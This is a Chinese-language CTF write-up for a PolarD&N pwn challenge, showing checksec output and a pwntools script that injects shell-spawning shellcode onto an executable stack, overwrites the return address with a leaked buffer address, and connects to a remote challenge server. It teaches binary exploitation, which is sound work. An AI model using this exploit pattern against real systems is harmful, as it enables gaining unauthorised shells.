 ```yaml
---
title: 基础栈溢出ret2shellcode 写入栈上
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

> 需要关闭NX、

## 基础检查
> 本例题是PolarD&N的中等入门pwn题 getshell
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file pwn2          
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=223702b293e1903c70772cc6ed9ea4b6475e7599, not stripped
                                                                                          
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=pwn2          
[*] '/home/kali/win/Downloads/pwn2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## ida 
![alt text](/images/image-11.png)

很显然v4的长度只有2，而v6很多，

v4写入shellcode的地址

v6写入shellcode
![alt text](/images/image-12.png)

## exp
```py
from pwn import *
context(os="linux", arch='amd64')
io = process("./pwn2")
io = remote("120.46.59.242", 2056)

padding = 0x70 + 8

shellcode = asm(shellcraft.amd64.sh())

v4_addr = int(io.recvline().strip(),16) # 题目给出的地址 转为10进制发送
# ljust 将shellocde填充到缓冲器头部，自适应调整
payload = shellcode.ljust(padding, b'A') + p64(v4_addr)

io.sendline(payload)
io.interactive()
```